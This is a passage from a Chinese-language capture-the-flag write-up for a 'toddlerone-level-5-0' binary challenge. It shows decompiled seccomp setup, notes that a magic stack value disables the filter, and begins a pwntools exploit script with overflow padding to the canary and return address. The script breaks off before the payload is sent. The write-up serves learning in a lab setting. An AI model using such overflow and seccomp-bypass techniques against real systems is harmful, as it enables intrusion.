 ```c ins={84-119} del={54, 62, 81} collapse={1-50, 58-58, 66-77, 101-116}
            "seccomp_rule_add(ctx, SCMP_ACT_ALLOW, syscalls_allowed[i], 0) == 0",
            "/challenge/toddlerone-level-5-0.c",
            0x9Eu,
            "challenge");
      }
      if ( (unsigned int)seccomp_load(v17) )
        __assert_fail("seccomp_load(ctx) == 0", "/challenge/toddlerone-level-5-0.c", 0xA1u, "challenge");
    }
    puts("Goodbye!");
    return 0LL;
  }
}
```

我本以为是要 bypass seccomp 的题，没想到根本用不着动脑子……

令 `v18[13] == 0x484D17DF2438CECF` seccomp 就形同虚设了。试问这题和前面两题有啥区别吗，是不是这题就是个引子，后面有真正的 seccomp 玩呀 LOL

值得注意的是这里我们泄漏出来的 rbp 并不是真正的 rbp，而是一些其它的栈内数据，它后面也有别的返回地址，不过都覆盖掉好像也没啥问题，目的达到了就好～

我只是想说，我懒得改变量名了，总之解释清楚别误解了就好哈哈哈。

## Exploit

```python
#!/usr/bin/python3

from pwn import (
    ELF,
    asm,
    context,
    gdb,
    log,
    os,
    p64,
    process,
    remote,
    shellcraft,
)

context(log_level="debug", terminal="kitty")

FILE = "./toddlerone-level-5-0"
HOST, PORT = "localhost", 1337

gdbscript = """
c
"""

backdoor = b"REPEAT "
padding_size = 0x78
padding_to_v18_size = 0x68
backdoor_trigger = b"".ljust(padding_size - len(backdoor) + 1, b"A") + backdoor
trigger_length = str(len(backdoor_trigger))
padding_to_canary = b"".ljust(0x8, b"A")
padding_to_ret = b"".ljust(0x18, b"A")
v18 = p64(0x484D17DF2438CECF)
fixed_offset = 0x11C0


def to_hex_bytes(data):
    return "".join(f"\\x{byte:02x}" for byte in data)


```